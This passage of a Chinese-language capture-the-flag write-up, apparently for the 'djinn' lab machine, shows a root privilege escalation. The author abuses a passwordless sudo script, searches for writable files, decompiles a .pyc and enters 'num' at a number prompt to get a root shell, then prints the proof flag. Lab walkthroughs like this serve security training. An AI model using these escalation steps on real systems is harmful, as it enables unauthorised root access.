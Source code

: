 *sam*账户可无密码使用*root*账户下的*/root/lago*脚本命令，执行该脚本后发现需要输入一个选项：

```shell
$ sudo -u root /root/lago
sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:1
1
Working on it!!
```

既然该账户能够执行这个脚本，那么猜测该脚本应该存在漏洞。通过`find`命令查找可写文件时发现编译后的脚本：

```shell
$ find / -writable -type f 2>/dev/null
find / -writable -type f 2>/dev/null
/usr/bin/genie/
...
/home/sam/.bashrc
/home/sam/.profile
/home/sam/.sudo_as_admin_successful
/home/sam/.pyc
/sys/kernel/security/apparmor/.remove
...
```

通过*uncompyle6.exe*工具对*/home/sam/.pyc*文件进行反编译，代码审计后发现在`guessit()`函数中的`s==num`存在漏洞，之后在*/root*目录下运行*proof.sh*脚本即可得到最后一个flag：

```shell
$ sudo -u root /root/lago
sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
2
Choose a number between 1 to 100:
Enter your number: num
num
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls
ls
lago  proof.sh
# ./proof.sh
./proof.sh
'unknown': I need something more specific.
    _                        _             _ _ _
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/
djinn pwned...
__________________________________________________________________________

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc
```